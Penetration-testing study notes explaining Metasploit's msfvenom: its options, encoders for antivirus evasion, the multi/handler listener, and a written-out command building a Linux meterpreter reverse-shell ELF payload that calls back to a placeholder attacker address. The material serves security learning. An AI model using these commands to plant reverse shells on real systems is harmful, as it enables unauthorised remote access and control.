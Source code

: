 
# Msfvenom
Msfvenom, which replaced Msfpayload and Msfencode, allows us to generate payloads. It will give us access to all payloads available in the Metasploit framework, it allows us to create payloads in many different formats and for different target systems.

`msfvenom`

|option|description|
|-|-|
|`--list formats`|lists supported output formats|
|`-l payloads`||
|`-p PAYLOAD`||
|`-e ENCODER`||
|`-f FORMAT`||

## Encoders
Encoders can be effective against some antivirus software, however, using obfuscation techniques or learning methods to inject shellcode can be a better solution to the problem. We can use the encoder in msfvenom with the `-e` parameter followed by the encoding method like `-e php/base64`, which would encode the PHP version of meterpreter in Base64  

## Handlers
Similar to exploits using a reverse shell, we need to accept incoming connections generated by the MSFvenom payload. With an exploit module, this part is automatically handled by the exploit module. Reverse shells or Meterpreter callbacks generated in our MSFvenom payload can be easily caught using a handler.

We can use the `use exploit/multi/handler` command  to receive the incoming connections, it supports all Metasploit payloads and can be used for Meterpreter as well as regular shells. To use it, we need to set the payload, LHOST and LPORT values.

## Other Payloads
Based on the target system's configuration, MSFvenom can be used to create payloads in almost all formats, some of the most used ones are
### elf
Linux Executable and Linkable Format (elf) is comparable to the **.exe** formatin windows. These are executable files for Linux. However, we still need to make sure we have executable permissions on the target machine, for this we can use `chmod +x shell.elf` to change the permissions of all users to allow them to execute that file.

```shell
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf
```
